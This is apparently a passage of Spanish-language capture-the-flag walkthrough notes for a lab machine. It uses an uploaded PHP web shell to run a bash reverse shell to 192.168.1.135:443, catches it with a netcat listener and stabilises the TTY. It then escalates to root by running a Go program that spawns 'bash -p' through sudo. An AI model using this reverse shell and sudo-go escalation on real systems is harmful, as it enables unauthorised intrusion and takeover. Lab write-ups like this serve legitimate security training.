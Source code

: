- Después de subir los archivos **pafeto.php** y **sexo.php**, pues ejecuto comandos
```URL
http://192.168.1.134/posts/pafeto.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.135/443%200%3E%261%22
```
- Atacante 
```bash
nc -nvlp 443
```

```bash
script /dev/null -c bash
Ctrol + Z
stty raw -echo ; fg # llevr netcat a 2 plano
reset xterm # o el visor que utilices
stty size # ver size de nuestra terminal
export TERM=xterm
export SHELL=bash
stty rows loquemedigamiterminal columns loquemedigamiterminal # en la revshell
```

```bash
#Veo que podemos utilizar go como sudo 
sudo -l -l 
```

- vim **estesi.go**
```go
package main

import (
 "fmt"
 "os"
 "os/exec"
)

func main() {
 cmd := exec.Command("/bin/bash", "-p") #Alternativa("chmod","u+s" ,"/bin/bash")
 cmd.Stdin = os.Stdin
 cmd.Stdout = os.Stdout
 cmd.Stderr = os.Stderr

 err := cmd.Run()
 if err != nil {
  fmt.Println("Error:", err)
 }
}
```

```bash
sudo /usr/local/go/bin/go run estesi.go 
#En caso de ser la segunda
bash -p
```

## Presidential
